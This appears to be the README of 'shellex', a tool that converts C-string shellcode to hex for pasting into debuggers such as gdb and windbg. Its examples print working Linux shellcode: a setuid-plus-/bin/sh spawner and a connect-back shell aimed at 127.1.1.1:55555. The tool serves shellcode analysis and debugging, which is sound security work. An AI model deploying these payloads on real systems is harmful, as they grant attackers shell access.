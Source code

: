 # shellex
**WARNING**: the ugliest code in the world

C-shellcode to hex converter. 

Handy tool for paste & execute shellcodes in gdb, windbg, ollydbg, x64dbg and immunity debugger.

Are you having problems converting C-shellcodes to HEX (maybe c-comments+ASCII mixed?) 

Here is shellex. If the shellcode can be compiled in a C compiler shellex can convert it.

Just execute shellex, paste the shellcode c-string and press ENTER. 

To end use Control+Z(Windows)/Control+D(Linux)

Converting c-shellcode-multi-line-hex+mixed_ascii (pay attention in the mixed part **\x68//sh\x68/bin\x89**):
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```

shellex output:
```
6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```

Now you can copy the output & paste it to Immunity Debugger, ollydbg, x64dbg, 010 hexadecimal editor etc.

Converting c-shellcode-multi-line-with-comments:
```
"\x68"
"\x7f\x01\x01\x01"  // <- IP:  127.1.1.1
"\x5e\x66\x68"
"\xd9\x03"          // <- Port: 55555
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce"
```

shellex output:
```
68 7F 01 01 01 5E 66 68 D9 03 5F 6A 66 58 99 6A 01 5B 52 53 6A 02 89 E1 CD 80 93 59 B0 3F CD 80 49 79 F9 B0 66 56 66 57 66 6A 02 89 E1 6A 10 51 53 89 E1 CD 80 B0 0B 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 EB CE
```

Do you need the shellex output as a new c-shellcode-string? just use -h parameter, example converting the shellex output:
```
./shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80

\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80
```

## Installation

```
git clone https://github.com/David-Reguera-Garcia-Dreg/shellex.git
```

### For Windows:

binary: shellex\bins\shellex.exe

### For Linux

Deps:

```
sudo apt-get install tcc
```

binary: shellex/linuxbins/shellex

## Paste & Execute shellcode in ollydbg, x64dbg, immunity debugger

Just use my xshellex plugin:

https://github.com/David-Reguera-Garcia-Dreg/xshellex

## Paste & Execute shellcode in gdb 

* execute shellex 
* enter the shellcode:
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```
* press enter
* press Control+D
* convert the shellex output to C-Hex-String with shellex -h:
```
shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```
* write the C-Hex-String to a file as raw binary data with "echo":
```
echo -n "\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80" > /tmp/sc
```
* gdb /bin/ls
* starti

Write the binary file to the current instruction pointer:

for 32 bits:
```
restore /tmp/sc binary $eip
x/30b $eip
x/15i $eip
```

for 64 bits:
```
restore /tmp/sc binary $rip
x/30b $rip
x/15i $rip
```

Done! You can debug the shellcode

Notes:

x/30b is the size in bytes of the shellcode, you can get the size with: 
```
wc -c /tmp/sc
```

x/15i is the number of instructions to display, you can get the size with:
```
sudo apt-get install nasm
```

For 32 bits:
```
ndisasm -b32 /tmp/sc
ndisasm -b32 /tmp/sc | wc -l
```

For 64 bits:
```
ndisasm -b64 /tmp/sc
ndisasm -b64 /tmp/sc | wc -l
```

## Paste & Execute shellcode in windbg

* execute shellex 
* enter the shellcode:
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```
* press enter
* press Control+D
* convert the shellex output to raw binary data with certutil:
```
echo 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80 > C:\Users\Dreg\sc.hex
certutil -f -decodeHex c:\Users\Dreg\sc.hex c:\Users\Dreg\sc
del C:\Users\Dreg\sc.hex
```

certutil output:
```
Input Length = 92
Output Length = 30
CertUtil: -decodehex command completed successfully.
```

The lenght of our shellcode is 30, then use L0n30 in windbg. 

Write the binary file to the current instruction pointer:

for 32 bits:
```
.readmem C:\Users\Dreg\sc @eip L0n30
```

for 64 bits:
```
.readmem C:\Users\Dreg\sc @rip L0n30
```

Done! You can debug the shellcode

## Compilation

For Windows just use Visual Studio 2013
* https://my.visualstudio.com/Downloads?q=visual%20studio%202013&wt.mc_id=o~msft~vscom~older-downloads
* https://go.microsoft.com/fwlink/?LinkId=532495&clcid=0x409

For Linux just: 
```
cd shellex/shellex
gcc -o shellex shellex.c
./shellex
```



